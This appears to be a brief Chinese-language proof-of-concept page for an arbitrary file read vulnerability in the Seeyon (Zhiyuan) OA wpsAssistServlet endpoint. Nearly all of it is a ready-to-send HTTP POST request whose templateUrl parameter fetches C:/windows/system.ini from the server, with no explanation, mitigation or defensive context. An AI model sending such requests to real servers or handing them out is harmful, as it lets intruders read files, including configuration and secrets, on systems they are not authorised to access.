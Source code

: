 ## 致远OA wpsAssistServlet任意文件读取漏洞

## POC
```
POST /seeyon/wpsAssistServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

flag=template&templateUrl=C:/windows/system.ini
```
